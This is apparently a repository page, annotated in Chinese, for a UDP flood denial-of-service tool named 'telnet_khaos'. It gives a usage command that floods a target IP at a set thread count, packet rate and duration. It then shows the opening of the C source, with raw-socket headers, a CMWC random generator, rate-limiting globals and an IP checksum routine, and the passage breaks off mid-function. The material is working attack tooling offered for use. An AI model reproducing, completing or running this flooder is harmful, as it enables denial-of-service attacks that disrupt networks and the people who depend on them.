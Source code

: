 ## 示例
```bash
./telnet_khaos 192.168.1.1 10 1000 60
```
该命令将向IP地址为192.168.1.1的主机发送UDP洪水攻击，使用10个线程，最大每秒1000个数据包，持续60秒。

```c
#include <pthread.h>
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/udp.h>

#define MAX_PACKET_SIZE 4096 // 定义数据包的最大大小为4096字节
#define PHI 0x9e3779b9       // 定义一个常量用于随机数生成算法

static unsigned long int Q[4096], c = 362436; // 定义随机数生成器的状态数组和常量
static unsigned int floodport;  // 全局变量，用于存储洪水攻击的目标端口
volatile int limiter;           // 控制每秒发送数据包的数量
volatile unsigned int pps;      // 每秒发送的数据包数
volatile unsigned int sleeptime = 100;  // 控制线程的休眠时间，用于节流

// 初始化随机数生成器
void init_rand(unsigned long int x)
{
    int i;
    Q[0] = x;                           // 初始化状态数组的第一个元素
    Q[1] = x + PHI;                     // 初始化第二个元素
    Q[2] = x + PHI + PHI;               // 初始化第三个元素
    for (i = 3; i < 4096; i++) {        // 填充剩余的元素
        Q[i] = Q[i - 3] ^ Q[i - 2] ^ PHI ^ i; // 基于前面元素计算当前元素
    }
}

// CMWC随机数生成器
unsigned long int rand_cmwc(void)
{
    unsigned long long int t, a = 18782LL;
    static unsigned long int i = 4095;
    unsigned long int x, r = 0xfffffffe;
    i = (i + 1) & 4095;          // 循环数组索引
    t = a * Q[i] + c;            // 生成随机数
    c = (t >> 32);               // 更新状态变量
    x = t + c;                   // 更新x值
    if (x < c) {                 // 检查溢出
        x++;
        c++;
    }
    return (Q[i] = r - x);       // 返回生成的随机数
}

// 计算校验和函数，用于计算IP头部的校验和
unsigned short csum(unsigned short* buf, int count)
{
    register unsigned long sum = 0;
    while (count > 1) {           // 逐对16位字进行加和
        sum += *buf++;
        count -= 2;
    }
    if (count > 0) {              // 如果剩下单独的字节，则加上
```